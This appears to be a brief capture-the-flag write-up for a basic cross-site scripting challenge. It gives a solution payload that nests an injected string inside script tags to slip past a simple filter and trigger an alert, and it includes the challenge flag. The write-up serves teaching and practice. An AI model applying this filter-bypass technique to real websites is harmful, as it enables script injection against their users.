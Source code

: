 # Next_Try
Basic XSS challenge with a small filter.

**Description of the Challenge:**
XXS me.

## Setup
--

## Solution
```<"THI"script type="text/javascript">alert("T"THI"H"THI"I");<"THI"/script>```


## Flag
THICTF{th1s_XSS_w4s_4_b1t_h4rd3r_th3n_th3_f1rst}
